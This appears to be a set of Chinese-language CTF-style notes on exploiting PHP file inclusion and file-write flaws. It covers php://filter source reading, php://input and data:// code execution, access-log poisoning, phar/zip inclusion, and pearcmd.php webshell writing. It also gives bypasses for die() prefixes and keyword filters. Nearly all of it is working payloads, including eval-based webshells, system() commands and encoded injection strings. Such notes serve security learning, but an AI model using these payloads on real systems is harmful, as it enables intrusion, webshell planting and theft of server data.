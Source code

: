 allow_url_include=off默认关闭，开发者使用文件包含往往会开启
allow_url_fopen=on默认开启，一般不用管
<https://blog.csdn.net/weixin_44508748/article/details/108162951>

^
## **php伪协议 文件包含读本地php文件源代码**
php://filter
```
include xx;
@include(xx);
include php://filter/read=convert.base64-encode/resource=flag.php

包含返回flag.php文件源码字符串的是base64编码内容
进行一次base64解码即可看到源代码

如果是根据名称匹配包含php文件
只需要把名称参数换成php://filter/read=convert.base64-encode/resource=flag即可。

也可中间加个index等字符也可以。
php://filter/read=convert.base64-encode/index/resource=flag
```
其他编码方式
```
quoted-printable-encode编码：
file=php://filter/read=convert.quoted-printable-encode/resource=/var/www/html/flag.php


UCS-2BE编码：
file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php

编码
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?


解码：
$encoded_string = // 这里应该是以 UCS-2LE 编码的原始字符串
$decoded_string = iconv("UCS-2LE", "UCS-2BE", $encoded_string);
echo $decoded_string;
```

^
## **php伪协议 文件包含注入php的php代码**

1. php://input 自动包含POST请求体(需要第一allow_url_include开启)

```
include php://input
post请求的请求体参数xx=<?php system(); ?>
请求体直接就一个<?php system(); ?>也可。

如：
?file=Php://input  这里大写可以绕过过滤php
再post：<?php system("tac flag.php");?>

```

2. data://text/plain直接包含代码内容:(需要两个allow开启)
```
include data://text/plain,<?php phpinfo(); ?>

file_get_contents('data://text/plain,welcome to the zjctf','r')
即为welcome to the zjctf

file_get_contents($_GET['2333']) === 'todat is a happy day'
则?2333=data://text/plain;base64,dG9kYXQgaXMgYSBoYXBweSBkYXk=


代码执行获取flag
payload：
?c=data://text/plain,<?php system('cat f*');?>
?c=data://text/plain,<?=system("tac%20flag.php");?>

防止过滤一下：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZionKTs/Pg==
但是结尾有.php的情况：include($c.".php"); 编码后会失效。
如果= 也过滤，调整空格数量，直至base64后没有=，末尾会是+号，或直接把=去除。
如果=+也过滤了，<?php    system("ls");     不要闭合?>这样的base64末尾没有+。
如果=+也过滤了，<?php    system("ls") ?>   去掉;这样的base64末尾没有+。
```

^
## **日志包含**
考伪协议绕过也可能直接日志包含
?file=/var/log/nginx/access.log
修改UA为：<?php @eval($_REQUEST[1])?>
1=system("ls");
1=system("tac fl0g.php");




^
## **php伪协议 文件包含自动解压文件再包含**
```
phar://D:/phpinfo.zip/phpinfo.txt
zip://D:\\phpinfo.jpg%23phpinfo.txt

上传了个压缩包，压缩包中phpinfo.txt中文件为<?php system($_GET[a]); ?>
```


## **pearcmd.php文件包含**
已知文件包含：include $_GET['c'].".php";
裸文件包含, 没有上传点, 可供尝试的只有pearcmd.php上传木马。
先用
```
GET /index.php?+config-create+/&c=pearcmd&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php HTTP/1.1
```
在/var/www/html下写入webshell
再
```
POST /test.php HTTP/1.1

Content-Type: application/x-www-form-urlencoded
Content-Length: 26

cmd=system("cat 36d.php");
```
也可<https://www.cnblogs.com/Egcrying/p/17665041.html>



^
## **php伪协议写文件**
### **file_put_contents()场景写文件漏洞**
#### **1、写后门过滤绕过**
对于
```
if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        die('hacker!!!');
}
file_put_contents("index.php", $input)
```
可以传入绕过
```
<?=`ls\t/*`?>
<?=`cat\t/flllllll1112222222lag`?>
```

^
#### **2、伪协议写后门绕过**
如果是第一个参数可控，使用伪协议。
```
$file = $_GET['file'];
$content = $_POST['content'];

$file = str_replace("php", "???", $file);
$file = str_replace("data", "???", $file);
$file = str_replace(":", "???", $file);
$file = str_replace(".", "???", $file);

file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```
绕过替换，$file使用双重url编码。
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%36%61%25%36%39%25%37%35%25%37%61%25%36%38%25%36%35%25%36%65%25%32%65%25%37%30%25%36%38%25%37%30
```
POST传递：
```
content=<?php system(ls);?>   //base64编码—下
content=PD9waHAgc3lzdGVtKGxzKTs/Pg==
content=aaPD9waHAgc3lzdGVtKGxzKTs/Pg== //加两个字符
//<?php die('大佬别秀了');?>被base64过滤后变成phpdie，加两个字符变成4的倍数。
```
访问jiuzhen.php即可。

^
#### **3、伪协议写后门绕过**
```
$file=$_GET['file'];
$contents=$_POST['contents'];

function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}

filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```
绕过die()函数，$file使用base64伪协议。将die()过滤成die无效字符。
但是这里过滤了base64，这里使用iconv.UCS-2LE.UCS-2BE编码解码。
```
?file=php://filter/write=convert.base64-decode/resource=jiuzhen.php
?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=hack.php
```
```
<?php
$re = iconv("UCS-2LE","UCS-2BE", '<?php @eval($_GET[1]);?>');
echo $re;
?>
得?<hp pe@av(l_$EG[T]1;)>?
```
POST传入：
```
contents=?<hp pe@av(l_$EG[T]1;)>?
```
访问即可
```
/hack.php?1=system('ls');
```